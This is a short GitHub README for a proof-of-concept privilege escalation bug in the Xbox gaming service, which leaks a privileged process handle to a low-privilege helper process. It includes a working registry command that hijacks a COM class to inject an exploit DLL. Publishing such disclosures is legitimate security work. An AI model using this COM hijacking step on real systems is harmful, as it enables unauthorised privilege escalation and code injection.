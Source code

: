 # GamingServiceEoP5
PoC for LPE bug in xbox gaming service

When service is started and user logs in gamingservice will spawn a xgamehelper.exe process in context of low privilege user and will leak privileged process handle into the new process.
![2](https://github.com/Wh04m1001/GamingServiceEoP5/assets/44291883/dfcfc1a2-6086-4f77-95dd-3c66fc4e9e0f)
As this bug can be abused only after reboot COM hijacking is performed to inject dll in xgamehelper process

```powershell
reg add "HKCU\Software\Classes\CLSID\{6db7cd52-e3b7-4ecc-bb1f-388aeef6bb50}\InprocServer32" /ve /t REG_SZ /d "c:\exploit\dll1.dll" /f

```
